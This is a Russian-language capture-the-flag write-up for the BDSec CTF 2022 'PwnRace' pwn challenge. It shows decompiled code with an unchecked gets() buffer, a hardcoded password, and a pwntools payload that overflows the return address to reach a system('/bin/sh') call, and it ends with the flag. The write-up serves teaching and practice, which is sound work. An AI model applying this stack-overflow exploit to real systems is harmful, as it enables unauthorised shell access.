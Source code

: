 # PwnRace
Category: pwn

Score: 200 (solved by 52 teams)

nc 159.223.101.241 31337


# Introduction

Дана [программа](https://github.com/silver12-A/Writeups/blob/main/CTF_2022/BDSec_CTF_2022/pwn/PwnRace/pwnrace).

При анализе в IDA PRO видно, что необходимо выполнить переполнение буфера и перетереть адресс возврата на функцию `shell()`, где будет выполнен системный вызов `return system("/bin/sh");`

# Analyzing IDA PRO

Из `main()` вызывается функция `heath_check()`

```
int heath_check()
{
  char s1[256]; // [rsp+0h] [rbp-100h] BYREF

  printf("\x1B[0;32mEnter Password:\n\x1B[0m");
  gets(s1);
  if ( strcmp(s1, "hAcK_Th3_Pl@n3t") )
  {
    printf("\x1B[41mWrong Password!!!!\n\x1B[0m");
    _exit(0);
  }
  printf("\x1B[4;32mEnter Password:\n\x1B[0m");
  return system("top -b -n 1");
}
```

# Solver:

Функция `shell()` находится по адресу `0x4013A0`, но в данном случае эксплойт не отработает. Я часто встречаюсь с такими ошибками на ctf, но если взять адрес, где указатель на строку помещается в регистр, а именно `0x4013A8`, то все получится!!!

```
.text:00000000004013A8                 lea     rax, command    ; "/bin/sh"
.text:00000000004013AF                 mov     rdi, rax        ; command
.text:00000000004013B2                 call    _system
```
Т.к. функция `gets(s1);` уязвима, мы можем перетереть массив `s1[256]`, тем самым перетереть `rsp` и адресс возврата `ret`. Но еще необходимо , чтобы s1 была равна hAcK_Th3_Pl@n3t. Это можно сделать так:

Воспользуемся пакетом python3 pwn-tools 
```
exploit=b'hAcK_Th3_Pl@n3t\x00'+b'a'*248+p64(0x4013A8)

```

# Solution script
Сценарий реализации эксплойта можно найти [здесь](https://github.com/silver12-A/Writeups/blob/main/CTF_2022/BDSec_CTF_2022/pwn/PwnRace/solver.py).


![pwn](https://user-images.githubusercontent.com/55994705/180290992-0980d087-3190-4a3b-8124-938fb454a78a.PNG)

# флаг: 
BDSEC{pwn_is_the_way_to_haven}

